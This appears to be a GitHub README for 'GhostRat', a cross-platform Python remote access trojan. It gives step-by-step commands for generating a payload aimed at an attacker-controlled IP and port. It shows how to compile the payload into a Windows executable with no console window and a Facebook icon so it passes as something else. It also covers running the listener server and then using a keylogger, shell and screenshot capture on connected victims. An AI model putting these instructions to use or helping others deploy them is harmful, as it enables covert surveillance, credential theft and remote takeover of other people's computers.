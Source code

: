 <h1 align="center"> 
    <img src="https://github.com/Ba-hub/GhostRat/raw/master/logo.png" alt="Gh0stRat" /> <br>    

</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v3.1" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT.</h4>


## Getting Started
### Description
A cross platform RAT written in pure Python. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>it uses BASE64 encoding. </li>
    <li>Pure Python3</li>
    <li>Source File included for testing</li>
    <li>Make exicuteble File .exe For Windows Client</li>
</ul>


### Installation
The tool is tested on **Parrot OS** **Kali-Linux** with **Python 3.8**. 
Follow the steps for installation:
```
$ git clone https://github.com/Ba-hub/GhostRat.git
$ cd GhostRat
$ python3 -m pip install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate -a 192.168.225.135 -p 2021 -o /tmp/payload.py -s

cd /tmp ==> You can Find Your Build Payload
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate -a 192.168.225.135 -p 2021 -o /tmp/filer.py
```


Replace your IP Address and Port on above commands. 

### Manually Makeing Your Payload,Open GhostRat.py use nano, Vim Or Leafpad.
```

CONSTIP = "192.168.225.178" # Change IP
CONSTPT = 2021 # Change Port 


```
Enter Your system IP address & Port Number & Save It 

### Make Exicute Files For Windows 
```
pyinstaller --onefile --noconsole --icon=Facebook.ico GhostRat.py

```
After Processing Complete Open /Dist Folder 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 server.py bind --address 0.0.0.0 --port 2021
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

### Support
<h1> Made By : Ghosthub </h1> 
